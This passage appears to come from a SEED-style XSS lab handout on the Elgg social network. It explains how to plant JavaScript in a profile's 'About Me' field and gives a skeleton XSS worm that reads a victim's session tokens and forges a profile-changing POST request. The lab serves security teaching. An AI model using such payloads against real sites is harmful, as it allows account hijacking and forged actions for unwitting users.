 Refer to [Asynchronous JavaScript And XML](https://www.w3schools.com/js/js_ajax_intro.asp) (AJAX) for usage of AJAX. AJAX allows web pages to be updated asynchronously by exchanging data with a web server behind the scenes. This means that it is possible to update parts of a web page, without reloading the whole page.

The above code should be placed in the `"About Me"` field of Samy's profile page. This field provides two editing modes: Editor mode (default) and Text mode. The Editor mode adds extra HTML code to the text typed into the field, while the Text mode does not. Since we do not want any extra code added to our attacking code, the Text mode should be enabled before entering the above JavaScript code. This can be done by clicking on `"Edit HTML"`, which can be found at the top right of the `"About Me"` text field.

**Question.** If the `Elgg` application only provide the Editor mode for the `"About Me"` field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?

## Task 4: Modifying the Victim's Profile

The objective of this task is to modify the victim's profile when the victim visits Samy's page. Specifically, modify the victim's `"About Me"` field. We will write an XSS worm to complete the task. This worm does not self-propagate; in task 5, we will make it self-propagating.

Similar to the previous task, we need to write a malicious JavaScript program that forges HTTP requests directly from the victim's browser, without the intervention of the attacker. To modify profile, we should first find out how a legitimate user edits or modifies his/her profile in `Elgg`. More specifically, we need to figure out how the HTTP POST request is constructed to modify a user's profile. We will use Firefox's `HTTP Header Live` inspection tool. Once we understand how the modify-profile HTTP POST request looks like, we can write a JavaScript program to send out the same HTTP request. We provide a skeleton JavaScript code that aids in completing the task.

```html
<script type="text/javascript">
    window.onload = function(){
        //JavaScript code to access user name, user guid, Time Stamp __elgg_ts and Security Token __elgg_token
        var userName="&name="+elgg.session.user.name;
        var guid="&guid="+elgg.session.user.guid;
        var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
        var token="&__elgg_token="+elgg.security.token.__elgg_token;

        //Construct the content of your url.
        var attackerGuid=...;   //FILL IN
        var sendurl=...;    //FILL IN
        var content=...;    //FILL IN

        //Create and send Ajax request to modify profile
        if(elgg.session.user.guid!=attackerGuid){
            var Ajax=new XMLHttpRequest();
            Ajax.open("POST", sendurl, true);
            Ajax.setRequestHeader("Host", "www.seed-server.com");
            Ajax.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            Ajax.send(content);
        }
    }
</script>
```
